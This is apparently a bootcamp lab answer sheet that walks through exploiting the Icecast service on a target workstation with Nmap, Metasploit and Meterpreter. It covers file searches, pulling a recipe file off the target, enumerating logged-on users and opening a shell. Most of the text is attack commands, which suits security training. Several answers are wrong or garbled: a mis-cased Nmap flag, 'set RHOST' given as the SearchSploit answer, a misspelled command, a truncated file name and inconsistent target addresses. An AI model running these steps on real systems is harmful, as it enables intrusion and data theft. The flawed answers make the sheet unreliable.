

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
1.	Perform a service and version scan using Nmap to determine which services are up and running:
o	Run the Nmap command that performs a service and version scan against the target.
Answer: nmap -sv 192.168.0.8/24

2.	From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
o	Run the SearchSploit commands to show available Icecast exploits.
Answer: set RHOST

3.	Now that we know which exploits are available to us, let's start Metasploit:
o	Run the command that starts Metasploit:
Answer: msfconsole

4.	Search for the Icecast module and load it for use.
o	Run the command to search for the Icecast module:
Answer: search Icecast

o	Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.
Answer: use 0

5.	Set the RHOST to the target machine.
o	Run the command that sets the RHOST:
Answer: set RHOST 192.168.0.20
o	
6.	Run the Icecast exploit.
o	Run the command that runs the Icecast exploit.
Answer: exploit

o	Run the command that performs a search for the secretfile.txt on the target.
Answer: search -f *secret*

7.	You should now have a Meterpreter session open.
o	Run the command to performs a search for the recipe.txt on the target:
Answer: secarch -f *recipe*

o	Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: cat Users/IEUser/Documents/Drinks.recipe.tx
o	Download Users/IEUsers/Documents/Drinks.recipe.txt

8.	You can also use Meterpreter's local exploit suggester to find possible exploits.
o	Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell.
Answer: Shell

C. Run the command that displays the target's computer system information:
Answer: Systeminfo

 
© 2020 Trilogy Education Services, a 2U Inc Brand. All Rights Reserved.

